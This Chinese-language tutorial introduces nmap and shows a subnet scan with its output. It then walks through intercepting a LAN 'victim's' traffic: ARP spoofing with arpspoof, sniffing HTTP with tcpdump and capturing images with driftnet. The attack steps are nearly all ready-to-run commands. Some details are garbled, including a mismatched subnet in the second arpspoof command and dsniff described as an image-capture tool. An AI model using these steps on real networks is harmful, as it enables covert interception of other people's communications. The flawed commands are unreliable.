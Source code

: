 Nmap，也就是Network Mapper，最早是Linux下的网络扫描和嗅探工具包。

nmap是一个网络连接端扫描软件，用来扫描网上电脑开放的网络连接端。
确定哪些服务运行在哪些连接端，并且推断计算机运行哪个操作系统（这是亦称 fingerprinting）。
它是网络管理员必用的软件之一，以及用以评估网络系统安全。
正如大多数被用于网络安全的工具，nmap 也是不少黑客及骇客（又称脚本小子）爱用的工具 。
系统管理员可以利用nmap来探测工作环境中未经批准使用的服务器，但是黑客会利用nmap来搜集目标电脑的网络设定，从而计划攻击的方法。
Nmap 常被跟评估系统漏洞软件Nessus 混为一谈。Nmap 以隐秘的手法，避开闯入检测系统的监视，并尽可能不影响目标系统的日常操作。




执行扫描:
```shell script
root@kali:~# nmap -sS 192.168.0.1/24
```

```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-23 02:59 CST
Nmap scan report for 192.168.0.1
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
1900/tcp open  upnp
MAC Address: 78:44:FD:77:53:EF (Tp-link Technologies)

Nmap scan report for 192.168.0.100
Host is up (0.0040s latency).
All 1000 scanned ports on 192.168.0.100 are filtered
MAC Address: 9C:A6:15:5C:37:D2 (Tp-link Technologies)

Nmap scan report for 192.168.0.101
Host is up (0.0039s latency).
All 1000 scanned ports on 192.168.0.101 are filtered
MAC Address: 28:2C:B2:C1:70:C1 (Tp-link Technologies)

Nmap scan report for 192.168.0.102
Host is up (0.14s latency).
Not shown: 999 filtered ports
PORT     STATE  SERVICE
6881/tcp closed bittorrent-tracker
MAC Address: 60:3A:7C:11:07:38 (Tp-link Technologies)

Nmap scan report for 192.168.0.103
Host is up (0.012s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
16080/tcp open  osxwebadmin
MAC Address: A4:50:46:6C:CE:65 (Xiaomi Communications)

Nmap scan report for 192.168.0.105
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
62078/tcp open  iphone-sync
MAC Address: 54:99:63:33:AB:B5 (Apple)

Nmap scan report for 192.168.0.109
Host is up (0.00026s latency).
Not shown: 999 filtered ports
PORT    STATE SERVICE
135/tcp open  msrpc
MAC Address: 28:3A:4D:74:FA:41 (Cloud Network Technology (Samoa) Limited)

Nmap scan report for 192.168.0.128
Host is up (0.0000020s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (8 hosts up) scanned in 102.69 seconds
```


注意：运行 arpspoof 命令时提示：arpspoof未找到命令，其原因是你还未安装 arpspoof 工具；arpspoof 是 dsniff 的一个附属工具，所以我们需要安装的是 dsniff

打开一个控制台
```shell script
root@kali:~# apt-get install dsniff  #安装图片抓取工具
root@kali:~# arpspoof -i eth0 -t 192.168.0.103(受害者ip) 192.168.0.1(路由器ip,也就是你的网关)   #告诉192.168.0.103(受害者ip),我是路由器
```

我们再打开一个控制台：
```shell script
root@kali:~# arpspoof -i eth0 -t 192.168.0.1(路由器ip,也就是你的网关) 192.168.1.101(我的ip)    #告诉路由器,我的ip是(受害者)
``` 

我们再打开一个控制台：
```shell script
root@kali:~# tcpdump tcp -nnAi eth0 port 80 and host 192.168.0.103(受害者ip)
``` 

安装图形捕获工具driftnet
```shell script
root@kali:~# apt-get install driftnet   #安装图形显示软件
root@kali:~# driftnet -i eth0    #获取0号网卡数据显示   
``` 

driftnet [选项] [过滤码]
选项：
-h              显示此帮助信息。
-v              详细操作。
-b              拍摄新图像时发出哔哔声。
-i interface    选择要监听的界面（默认：全部接口）。
-f file         文件而不是在接口上侦听，读取捕获来自pcap转储文件的数据包;文件可以是一个命名管道与Kismet或类似的使用。
-p              不要将听音界面设置为混音模式。
-a              附加模式：不要在屏幕上显示图像，但保存他们到一个临时目录，并宣布他们的名字标准输出。
-m number       在临时目录中保留的最大图像数量在辅助模式下。
-d directory    使用指定的临时目录。
-x prefix       在保存图像时使用的前缀。
-s              尝试从网络提取流式音频数据，除了图像。目前这个支持MPEG数据只要。
-S              提取流式音频而不是图像。
-M command      使用给定的命令播放提取的MPEG音频数据与-s选项;这应该处理MPEG帧在标准输入上提供。默认：`mpg123 - '。


